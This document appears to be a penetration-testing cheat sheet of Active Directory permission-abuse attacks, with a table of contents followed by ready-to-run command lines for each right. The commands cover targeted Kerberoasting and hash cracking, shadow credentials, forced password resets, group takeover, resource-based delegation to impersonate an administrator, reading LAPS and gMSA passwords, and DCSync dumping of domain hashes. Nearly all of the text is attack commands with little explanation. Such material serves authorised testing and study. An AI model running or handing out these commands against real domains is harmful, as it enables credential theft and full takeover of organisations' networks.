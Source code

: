 - [GenericWrite](#genericwrite)
- [GenericALL](#genericall)
- [ForceChangePassword](#forcechangepassword)
- [AddMember](#addmember)
- [WriteOwner](#writeowner)
- [AddKeyCredentialLink](#addkeycredentialLink)
- [ReadLAPSPassword](#readlapspassword)
- [ReadGMSAPassword](#readgmsapassword)
- [DCSync](#dcsync)
## GenericWrite
> Update object's attributes
### Targeted Kerberoasting
```bash
python targetedKerberoast.py -v -d <domain> -u <username> -p <password>
```

```bash
hashcat -m 13100 -a 0 <hash_file> rockyou.txt --force
```
### ShadowCredentials
```bash
certipy shadow auto -u username@domain -p <password> -account <target_username> -dc-ip <ip>
```
Using Kerberos
```bash
certipy shadow auto -username username@domain -p <password> -k -account <target_username> -target <dc>
```
## GenericALL
> Full rights to the object (add users to a group or reset user's password)
### Password Change
```bash
net rpc password <username> <new_password> -U <domain>/<username>%<hash> -S <dc> --pw-nt-hash
```
### Add user to a group
```bash
net rpc group addmem <target_group> <username> -U <domain>/<username> -S <dc>
```
### RBCD
```bash
rbcd.py -delegate-from '<machine_name>' -delegate-to '<target>' -dc-ip <ip> -action 'write' '<domain>/<username>:<password>'
```

```bash
getST.py -spn 'cifs/<dc>' -impersonate administrator -dc-ip <ip> '<domain>/<machine_name>:<password>'
```

```bash
export KRB5CCNAME=administrator.ccache
```
## ForceChangePassword
> Ability to change user's password
```bash
net rpc password <TargetUser> <new_password> -U "DOMAIN"/"ControlledUser"%"Password" -S <DomainController>
```

```bash
bloodyAD --host <ip> -d <dc> -u <username> -p <password> set password <target_userename> <new_password>
```

```bash
python rpcchangepwd.py <domain>/<username>:<password>@<ip> -newpass <new_password>
```
## AddMember
```
net rpc group addmem <target_group> <username> -U <domain>/<username> -S <dc>
```
## WriteOwner
> Change object owner to attacker controlled user take over the object
```bash
owneredit.py -action write -new-owner <username> -target <group_name> <domain>/<username>:<password>
```

```bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal <username> -target-dn <dn> <domain>/<username>:<password>
```

```bash
bloodyAD.py -d <domain> -u <username> -p <password> --host <dc> add groupMember <target_group> <username>
```
## AddKeyCredentialLink
```bash
python3 pywhisker.py -d <domain> --dc-ip <ip> -u <username> -H :<hashes> --target <target_username> --action "add"
```

```bash
certipy shadow auto -username <username>@<domain> -hashes :<hashes> -account <target_username>
```
## ReadLAPSPassword
```bash
nxc smb <target> -u <username> -p <password> --laps
```
## ReadGMSAPassword
```bash
nxc ldap <target> -u <username> -p <password> --gmsa
```
## DCSync
```bash
secretsdump.py <dc> -k
```

```bash
nxc smb <domain> -u <username> -p <password> --ntds
```

```bash
nxc smb <domain> -k --use-kcache --ntds
```
# Resources
- https://www.thehacker.recipes/ad/movement/dacl/
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse
- https://mayfly277.github.io/posts/GOADv2-pwning-part11/
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
